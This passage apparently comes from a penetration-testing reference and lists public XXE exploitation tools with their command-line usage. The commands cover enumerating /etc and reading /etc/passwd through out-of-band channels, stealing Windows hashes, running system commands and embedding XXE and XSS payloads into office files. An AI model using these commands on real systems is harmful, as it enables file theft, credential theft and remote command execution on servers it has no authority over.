- [xxeftp](https://github.com/staaldraad/xxeserv) - A mini webserver with FTP support for XXE payloads
  ```ps1
  sudo ./xxeftp -uno 443
  ./xxeftp -w -wps 5555
  ```
- [230-OOB](https://github.com/lc/230-OOB) - An Out-of-Band XXE server for retrieving file contents over FTP and payload generation via [http://xxe.sh/](http://xxe.sh/)
  ```ps1
  $ python3 230.py 2121
  ```
- [XXEinjector](https://github.com/enjoiz/XXEinjector) - Tool for automatic exploitation of XXE vulnerability using direct and different out of band methods
  ```ps1
  # Enumerating /etc directory in HTTPS application:
  ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --ssl
  # Enumerating /etc directory using gopher for OOB method:
  ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --oob=gopher
  # Second order exploitation:
  ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/vulnreq.txt --2ndfile=/tmp/2ndreq.txt
  # Bruteforcing files using HTTP out of band method and netdoc protocol:
  ruby XXEinjector.rb --host=192.168.0.2 --brute=/tmp/filenames.txt --file=/tmp/req.txt --oob=http --netdoc
  # Enumerating using direct exploitation:
  ruby XXEinjector.rb --file=/tmp/req.txt --path=/etc --direct=UNIQUEMARK
  # Enumerating unfiltered ports:
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --enumports=all
  # Stealing Windows hashes:
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --hashes
  # Uploading files using Java jar:
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --upload=/tmp/uploadfile.pdf
  # Executing system commands using PHP expect:
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --oob=http --phpfilter --expect=ls
  # Testing for XSLT injection:
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --xslt
  # Log requests only:
  ruby XXEinjector.rb --logger --oob=http --output=/tmp/out.txt
  ```
- [oxml_xxe](https://github.com/BuffaloWill/oxml_xxe) - A tool for embedding XXE/XML exploits into different filetypes (DOCX/XLSX/PPTX, ODT/ODG/ODP/ODS, SVG, XML, PDF, JPG, GIF)
  ```ps1
  ruby server.rb
  ```
- [docem](https://github.com/whitel1st/docem) - Utility to embed XXE and XSS payloads in docx,odt,pptx,etc
  ```ps1
  ./docem.py -s samples/xxe/sample_oxml_xxe_mod0/ -pm xss -pf payloads/xss_all.txt -pt per_document -kt -sx docx
  ./docem.py -s samples/xxe/sample_oxml_xxe_mod1.docx -pm xxe -pf payloads/xxe_special_2.txt -kt -pt per_place
  ./docem.py -s samples/xss_sample_0.odt -pm xss -pf payloads/xss_tiny.txt -pm per_place
  ./docem.py -s samples/xxe/sample_oxml_xxe_mod0/ -pm xss -pf payloads/xss_all.txt -pt per_file -kt -sx docx
  ```
- [otori](http://www.beneaththewaves.net/Software/On_The_Outside_Reaching_In.html) - Toolbox intended to allow useful exploitation of XXE vulnerabilities.
  ```ps1
  python ./otori.py --clone --module "G-XXE-Basic" --singleuri "file:///etc/passwd" --module-options "TEMPLATEFILE" "TARGETURL" "BASE64ENCODE" "DOCTYPE" "XMLTAG" --outputbase "./output-generic-solr" --overwrite --noerrorfiles --noemptyfiles --nowhitespacefiles --noemptydirs 
  ```
